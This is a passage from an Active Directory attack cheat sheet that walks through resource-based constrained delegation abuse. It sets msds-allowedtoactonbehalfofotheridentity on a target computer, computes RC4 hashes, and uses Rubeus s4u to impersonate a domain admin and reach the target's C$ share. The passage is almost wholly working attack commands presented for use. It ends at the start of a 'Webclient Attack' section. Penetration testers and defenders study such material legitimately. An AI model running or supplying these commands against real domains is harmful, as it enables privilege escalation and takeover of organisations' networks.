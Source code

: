 ````
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SID>)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

#### Modify the target computer object
```
Get-DomainComputer <TARGET COMPUTER> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

#### Check if modification worked
```
Get-DomainComputer <TARGET COMPUTER> -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

#### Check if raw security descriptor is refering to the correct machine
```
$RawBytes = Get-DomainComputer <TARGET COMPUTER> -Properties 'msds-allowedtoactonbehalfofotheridentity' | Select-Object -ExpandProperty msds-allowedtoactonbehalfofotheridentity
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
Get-DomainComputer <SID>
```

#### Calculate RC4 hash for the user/computer object
- Only if you made a computer or you dont know the hash of the user
```
.\Rubeus.exe hash /password:123456 /user:fake01 /domain:<DOMAIN>
```

#### Select user to impersonate
- Preferably a user that would be admin on the machine (Check BloodHound).
- User should not be part of "Protected Users group" or accounts with the "This account is sensitive and cannot be delegated" right
```
Get-DomainUser | ? {!($_.memberof -Match "Protected Users")} | select samaccountname, memberof
```

#### Impersonate another user (For example DA)
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe s4u /user:<USER OR COMPUTER$> /rc4:<HASH> /impersonateuser:<TARGET USER DA> /msdsspn:cifs/<TARGET COMPUTER> /ptt

.\Rubeus.exe s4u /user:<USER OR COMPUTER$> /rc4:<HASH> /impersonateuser:<TARGET USER DA> /msdsspn:host/<TARGET COMPUTER> /altservice:ldap,rpc,http,cifs,host /ptt
```

#### Access the C Disk if user is local admin to the target machine (When impersonating DA)
```
dir \\<COMPUTER>\C$
```

- If dir doesn't work check blogpost

#### It is possible that you impersonated another user which leads to more ACL abuses!

### Webclient Attack
- Requirements:
  - On a Domain Controller to have the LDAP signing or LDAPS binding not enforced (default value)
````